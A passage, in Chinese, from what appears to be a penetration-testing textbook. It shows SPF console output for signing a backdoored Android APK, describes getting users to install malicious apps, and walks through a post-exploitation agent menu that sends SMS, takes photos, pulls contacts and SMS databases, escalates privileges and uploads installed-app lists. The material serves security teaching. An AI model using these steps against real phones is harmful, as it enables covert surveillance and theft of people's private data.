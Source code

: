 ```
Use Android Master Key Vuln?(y/N): **n**
Password for Debug Keystore is android
Enter Passphrase for keystore:
--*snip*--
  signing: resources.arsc
```

系统会提示你输入调试密钥库的密码。默认情况下，此操作不会使用发布在 Google Play 上的密钥来签名 APK，但对于我们的目的来说已经足够。该应用现在已用调试密钥签名，应该可以在任何不限制只能安装官方 Play Store 应用的设备上安装。请注意，如果渗透测试的范围包括诱使用户从 Google Play 商店下载恶意应用，渗透测试人员完全可以用他们注册的合法 Google Play 密钥来签名该应用。

### 注意

带有后门的 APK 与我们在后门源代码中创建的代理功能等效，可以通过相同的方式进行部署。当然，部署后我们已经有一个可用的代理可以进行操作，接下来我们将查看在代理部署后，我们可以对设备及其本地网络执行哪些操作。

## 移动后渗透

现在我们已经进入设备，有几个选项可以选择。我们可以从设备上收集本地信息，如联系人或收到的 SMS 消息，还可以远程控制设备执行一些操作，如拍照。如果我们对权限不满意，可以尝试对设备进行权限提升，获得 root 权限。我们甚至可以利用被攻陷的移动设备攻击网络上的其他设备。（如果设备直接连接到公司网络或使用 VPN 访问网络，这种攻击尤其有趣。）

### 信息收集

我们将通过获取感染设备上已安装应用程序的列表来进行信息收集示例，如示例 20-17 所示。

示例 20-17. 在代理上运行命令

```
spf> **2**
View Data Gathered from a Deployed Agent:
Available Agents:
    1.) 15555215556
Select an agent to interact with or 0 to return to the previous menu.
spf> **1**❶
Commands:❷
    1.) Send SMS
    2.) Take Picture
    3.) Get Contacts
    4.) Get SMS Database
    5.) Privilege Escalation
    6.) Download File
    7.) Execute Command
    8.) Upload File
    9.) Ping Sweep
    10.) TCP Listener
    11.) Connect to Listener
    12.) Run Nmap
    13.) Execute Command and Upload Results
    14.) Get Installed Apps List
    15.) Remove Locks (Android < 4.4)
    16.) Upload APK
    17.) Get Wifi IP Address
Select a command to perform or 0 to return to the previous menu
spf> **14**❸
    Gets a list of installed packages(apps) and uploads to a file.
Delivery Method(SMS or HTTP): **HTTP**❹
```
